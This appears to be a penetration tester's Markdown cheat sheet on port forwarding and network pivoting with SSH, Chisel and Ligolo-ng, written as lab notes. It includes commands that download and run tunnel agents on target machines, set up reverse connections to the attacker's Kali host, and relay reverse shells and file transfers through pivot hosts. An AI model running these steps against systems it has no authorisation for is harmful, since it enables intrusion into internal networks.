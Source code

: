 
## Portforward

### SSH

Port 8080 on target host to port 8080 on localhost on Kali:
```
ssh -L 8080:localhost:8080 <USERNAME>@<TARGET-IP>
```

### Chisel

Binary: [link](https://github.com/jpillora/chisel/releases/tag/v1.10.0)
```bash
# Kali
./chisel server --port 9001 --reverse

# Target
./chisel client 192.168.45.183:9001 R:8888:localhost:8080
./chisel client <IP>:<port> R:<LPORT>:localhost:<RPORT>

.\chisel.exe client 192.168.45.221:9001 R:8888:localhost:1433
.\chisel.exe client <IP>:<port> R:<LPORT>:localhost:<RPORT>
```


---

## Pivot

### Ligolo (get latest binaries if errors occur!)

Get agent and proxy: [link](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.7.1-alpha)

**Pivot 1**
```bash
# Kali
sudo ip tuntap add user kali mode tun ligolo  
sudo ip link set ligolo up
sudo ./proxy -selfcert -laddr 0.0.0.0:443
sudo python3 -m http.server 80 # Transfer agent

# Target
wget http://<Kali-IP>/agent
chmod +x agent
./agent -connect <Kali-IP>:443 -ignore-cert -retry
.\agent.exe -connect <Kali-IP>:443 -ignore-cert -retry
```

Add route and start session:
```bash
# In terminal
sudo ip route add 172.16.183.0/24 dev ligolo

# In ligolo window
session <enter><enter>
start
```


**Pivot 2**
```bash
# On Kali
sudo ip tuntap add user giiker mode tun ligolo2  
sudo ip link set ligolo2 up

# On Ligolo
listener_add --addr 0.0.0.0:2222 --to 127.0.0.1:80 --tcp # File transfer
listener_add --addr 0.0.0.0:8080 --to 0.0.0.0:443 --tcp

# On Target
wget http://<pivot1-IP>:2222/agent
chmod +x agent
./agent -connect <pivot1-IP>:8080 -ignore-cert
```

Add route and start session:
```bash
# In terminal
sudo ip route add 192.168.20.0/24 dev ligolo2

# In ligolo window
session <enter><enter>
start --tun ligolo2
```


**File transfer & Reverse shells**

Setup listener on ligolo session:
```bash
# Port 80 from pivot machine to port 80 on kali machine
listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:80 
listener_add --addr 0.0.0.0:4445 --to 0.0.0.0:445

# On Kali
sudo python3 -m http.server 80

# On Target:
wget http://<pivot1-IP>:2222/<FILE>
```
>[!info] 
>Same story with reverse shells


**Cleanup**

Delete routes and interface:
```bash
# Pivot1
sudo ip route del 192.168.10.0/24 dev ligolo
sudo ip link delete ligolo

# Pivot2
sudo ip route del 192.168.20.0/24 dev ligolo
sudo ip link delete ligolo2
```
